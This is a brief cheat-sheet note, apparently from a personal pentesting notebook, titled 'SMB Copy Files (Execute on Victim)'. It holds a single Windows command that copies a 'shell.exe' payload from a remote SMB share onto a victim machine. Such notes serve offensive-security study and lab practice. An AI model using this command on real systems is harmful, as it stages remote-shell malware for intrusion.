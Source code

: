 # SMB Copy Files (Execute on Victim)
```
copy \\192.168.0.1\server_name\shell.exe shell.exe
```

` zet/20221003150567/README.md `

# Related


Tags:

    
